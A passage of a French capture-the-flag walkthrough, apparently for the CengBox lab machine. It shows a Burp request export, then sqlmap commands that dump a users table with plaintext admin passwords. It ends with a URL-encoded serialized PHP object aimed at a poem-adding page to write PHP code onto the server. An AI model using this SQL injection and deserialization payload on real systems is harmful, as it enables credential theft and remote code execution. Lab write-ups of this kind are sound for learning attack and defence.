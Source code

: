 Voici un exemple de son contenu :

```
<items burpVersion="2020.11.3" exportTime="Sun Dec 27 14:02:53 CET 2020">
  <item>
    <time>Sun Dec 27 13:04:49 CET 2020</time>
    <url><![CDATA[http://dev.ceng-company.vm/login.php]]></url>
    <host ip="192.168.1.109">dev.ceng-company.vm</host>
    <port>80</port>
    <protocol>http</protocol>
```

On va ensuite le passer à ``sqlmap`` avec la commande suivante :

```bash
sqlmap -r sqlmap.txt --dbs --tamper=between
```

- **-r** pour lire la requête HTTP depuis un fichier
- **--dbs** permet de lister les bases de données
- **--tamper** permet de temporiser entre chaque requête. Cette option est directement recommandée par sqlmap.

Un fois qu'on a récupéré la liste des bases de données du site on peut affiner notre recherche pour n'afficher que les champs de la table qui nous intéressent :

```bash
sqlmap -r sqlmap.txt -D cengbox -U users --dump --tamper=between
```

```
+----+-------+------------------------------+-------------+
| id | name  | login                        | password    |
+----+-------+------------------------------+-------------+
| 1  | Admin | admin@ceng-company.vm        | admin*_2020 |
| 2  | Admin | elizabethsky@ceng-company.vm | walnuttree  |
+----+-------+------------------------------+-------------+
```

On a donc récupéré les logins pour se connecter au panel admin ainsi que les mots de passe en clair.

Après avoir fait des tests on se rend compte que les deux utilisateurs possèdent les droits administrateurs. Il n'y a donc pas d'importance dans le choix du compte avec lequel on va se connecter.



* * *

## Shell basique

On a maintenant accès à une page qui nous permet d'ajouter des poèmes.

Si on tente d'en ajouter un pour voir comment le site réagit on obtient l'URL suivante :

```
http://dev.ceng-company.vm/addpoem.php?data=O%3A4%3A%22Poem%22%3A3%3A%7Bs%3A8%3A%22poemName%22%3Bs%3A5%3A%22shell%22%3Bs%3A10%3A%22isPoetrist%22%3BO%3A8%3A%22poemFile%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A22%3A%22%2Fvar%2Fwww%2Fhtml%2Fpoem.txt%22%3Bs%3A8%3A%22poemName%22%3Bs%3A5%3A%22shell%22%3B%7Ds%3A9%3A%22poemLines%22%3Bs%3A21%3A%22%3C%3Fphp+echo+%22test%22%3B+%3F%3E%22%3B%7D
```
